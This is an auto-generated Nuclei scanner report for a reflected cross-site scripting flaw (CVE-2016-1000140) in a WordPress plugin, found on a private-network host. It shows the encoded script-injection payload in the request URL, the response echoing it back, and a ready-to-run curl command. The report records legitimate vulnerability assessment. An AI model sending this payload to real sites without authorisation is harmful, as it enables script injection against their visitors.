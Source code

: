 ### New Year Firework <= 1.1.9 - Reflected Cross-Site Scripting (XSS) (CVE-2016-1000140) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2016-1000140**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/new-year-firework/firework/index.php?text=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:16 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | New Year Firework <= 1.1.9 - Reflected Cross-Site Scripting (XSS) |
| Authors | daffainfo |
| Tags | cve, cve2016, wordpress, xss, wp-plugin |
| Severity | medium |
| Description | Reflected XSS in wordpress plugin new-year-firework v1.1.9 |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2016-1000140](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2016-1000140) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /wp-content/plugins/new-year-firework/firework/index.php?text=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 4.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 253
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/new-year-firework/firework/index.php?text="></script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://nvd.nist.gov/vuln/detail/cve-2016-1000140
- http://www.vapidlabs.com/wp/wp_advisory.php?v=453
- https://wordpress.org/plugins/new-year-firework
- http://www.securityfocus.com/bid/93817

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 4.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/new-year-firework/firework/index.php?text=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)
